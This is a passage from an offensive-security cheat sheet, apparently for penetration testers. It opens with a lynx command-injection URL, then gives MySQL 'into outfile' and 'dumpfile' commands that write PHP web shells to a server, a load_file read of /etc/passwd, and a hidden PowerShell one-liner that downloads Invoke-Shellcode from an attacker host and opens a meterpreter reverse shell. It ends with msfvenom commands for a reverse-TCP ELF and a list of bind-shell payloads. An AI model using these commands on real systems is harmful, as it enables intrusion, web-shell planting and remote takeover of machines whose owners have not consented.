```none
URL to open: LYNXDOWNLOAD://Method=-1/File=/dev/null;/bin/sh;/SugFile=/dev/null
```

### MYSQL

- If we have MYSQL Shell via sqlmap or phpmyadmin, we can use mysql outfile/ dumpfile function to upload a shell.

  ```none
  echo -n "<?php phpinfo(); ?>" | xxd -ps 3c3f70687020706870696e666f28293b203f3e

  select 0x3c3f70687020706870696e666f28293b203f3e into outfile "/var/www/html/blogblog/wp-content/uploads/phpinfo.php"
  ```

  or

  ```none
  SELECT "<?php passthru($_GET['cmd']); ?>" into dumpfile '/var/www/html/shell.php';
  ```

- If you have sql-shell from sqlmap/ phpmyadmin, we can read files by using the load_file function.

  ```none
  select load_file('/etc/passwd');
  ```

### Reverse Shell from Windows

If there's a way, we can execute code from windows, we may try

- Uploading ncat and executing it
- Powershell Empire/ Metasploit Web-Delivery Method
- Invoke-Shellcode (from powersploit)

  ```none
  Powershell.exe -NoP -NonI -W Hidden -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://YourIPAddress:8000/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost YourIPAddress -Lport 4444 -Force"
  ```

```none
.. Todo:: add Nishang?
```

### MSF Meterpreter ELF

```none
msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -o met LHOST=10.10.XX.110 LPORT=4446
```

### Metasploit MSFVenom

Ever wondered from where the above shells came from? Maybe try msfvenom and grep for cmd/unix

```none
msfvenom -l payloads | grep "cmd/unix"
**snip**
    cmd/unix/bind_awk                                   Listen for a connection and spawn a command shell via GNU AWK
    cmd/unix/bind_inetd                                 Listen for a connection and spawn a command shell (persistent)
    cmd/unix/bind_lua                                   Listen for a connection and spawn a command shell via Lua
    cmd/unix/bind_netcat                                Listen for a connection and spawn a command shell via netcat
    cmd/unix/bind_perl                                  Listen for a connection and spawn a command shell via perl
    cmd/unix/interact                                   Interacts with a shell on an established socket connection
```